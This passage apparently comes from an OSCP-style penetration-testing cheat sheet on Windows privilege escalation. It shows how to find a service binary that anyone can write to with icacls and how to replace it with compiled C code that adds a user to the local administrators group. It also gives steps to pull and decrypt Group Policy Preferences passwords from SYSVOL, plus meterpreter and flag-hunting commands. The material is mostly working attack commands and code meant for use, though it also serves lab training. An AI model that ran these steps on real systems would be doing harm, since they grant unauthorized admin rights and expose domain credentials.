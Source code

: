 icacls scsiaccess.exe
> scsiaccess.exe
> NT AUTHORITY\SYSTEM:(I)(F)
> BUILTIN\Administrators:(I)(F)
> BUILTIN\Users:(I)(RX)
> APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
> Everyone:(I)(F)

- Compile a custom add user command in windows using C

root@kali:~# cat useradd.c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
int i;
i=system ("net localgroup administrators low /add");
return 0;
}
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

- Group Policy Preferences (GPP)

A common useful misconfiguration found in modern domain environments is unprotected Windows GPP settings files

    - map the Domain controller SYSVOL share

net use z: \\dc01\SYSVOL

    - Find the GPP file: Groups.xml

dir /s Groups.xml

    - Review the contents for passwords

type Groups.xml

    - Decrypt using GPP Decrypt

gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB

- Find and display the proof.txt or flag.txt - get the loot!`#meterpreter  >     run  post/windows/gather/win_privs`

`cd\ & dir /b /s proof.txt``type c:\pathto\proof.txt`

# [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='73'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2303' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#client-web-and-password-attacks)Client, Web and Password Attacks
